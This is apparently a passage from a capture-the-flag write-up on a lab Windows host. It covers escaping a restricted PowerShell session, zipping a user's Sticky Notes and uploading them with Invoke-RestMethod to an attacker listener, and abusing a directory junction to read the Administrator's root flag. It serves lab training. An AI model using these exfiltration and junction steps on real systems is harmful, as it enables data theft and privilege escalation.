 ![picture 24](/assets/images/adeaed890c3add6be656525dbbc8e48637d650f0a3812df788d70585bdd5f0f2.png)  

In Linux this happens if commands are not in PATH... 

This however does not seem to be the case here
```
[10.10.10.210]: PS>$env:Path
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Program Files\Microsoft\Exchange Server\V14\bin
```

Solution was to run the commands in & (to launch command in script block {} => e.g. &{ls}

# Privilege Escalation
## Finding Sticky Notes
Since there was a shortcut left for sticky notes and it seems that privesc has something to do with it, i copied the contents to view them on my machine.

```
C:\Users\k.svensson\AppData\Roaming>xcopy stickynotes\* C:\Users\k.svensson\Links\stickynotes /E /H

C:\Users\k.svensson\Links>powershell -c "Compress-Archive -Path .\stickynotes -DestinationPath .\stickynotes.zip"
```
SERVER on Windows: `python3.9.exe .\server.py --bind 0.0.0.0`
```
powershell -c "Invoke-RestMethod -Uri http://10.10.14.22:8000/stickynotes.zip -infile .\stickynotes.zip -method put"
```
![picture 25](/assets/images/4fe688e35ed6316f375c0702bd08e39e6f2d08daa40fa4dc979a67d472e0ec9b.png)  


[10.10.10.210]: PS>&{cmd /c mklink /J adm c:\Users\Administrator\Desktop}
[10.10.10.210]: PS>Check-File C:\ProgramData\adm\root.txt